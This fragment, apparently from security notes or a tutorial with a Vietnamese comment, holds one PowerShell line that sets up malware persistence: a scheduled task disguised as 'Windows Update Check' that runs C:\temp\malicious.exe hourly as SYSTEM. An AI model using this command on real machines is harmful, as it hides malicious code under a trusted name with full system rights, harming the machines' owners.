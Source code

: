 ```powershell
## Tạo scheduled task chạy mỗi giờ
schtasks /create /tn "Windows Update Check" /tr "C:\temp\malicious.exe" /sc hourly /ru "SYSTEM"

